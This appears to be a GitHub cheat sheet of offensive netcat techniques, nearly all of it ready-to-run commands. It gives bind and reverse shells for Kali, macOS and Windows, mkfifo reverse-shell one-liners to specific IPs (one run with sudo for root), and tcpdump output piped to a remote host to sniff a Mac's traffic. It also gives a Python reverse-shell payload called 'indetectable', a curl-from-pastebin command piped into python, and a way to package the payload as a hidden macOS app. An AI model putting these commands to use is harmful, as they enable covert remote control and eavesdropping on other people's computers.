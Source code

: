 # Netcat

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)
	
MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
    nc -l 8888 (listen - cannot execute -e directly)
 
Windows:
 
	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

## Reverse Shell

Shell:

	mkfifo /tmp/f; nc 192.168.0.110 2222 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Bash:

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

Bash: (root)

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | sudo /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

## Netcat & TCPDump:

Data in file:

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic:

	/usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)
	nc -l -p 7777 | tee /tmp/sniffed_output.pcapng (on kali)

Data in real time:
 
On kali:
 
	mkfifo /tmp/wiretap
	nc -l -p 9999 > /tmp/wiretap
	wireshark -k -i /tmp/wiretap

On mac:

	/usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

## Netcat & Payload:

### Option 1:

Create an indetectable payload in python and use it to get a shell on every macos system:

	nc -l -p 8080 (listening on kali)

Create a python payload:

	nano payload.py (and paste that script changing the ip)
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);

Then, just have to execute that script on macos computer.

	sudo python payload.py

### Option 2:

An other option is to send the script online with a pastebin web service:

	https://pastebin.com

And execute this command on the macos computer:

	curl https://pastebin.com/raw/P6p9WwAT | python - &

### Option 3:

Create a MacOs application to run the script on background with platypus:

	https://sveinbjorn.org/platypus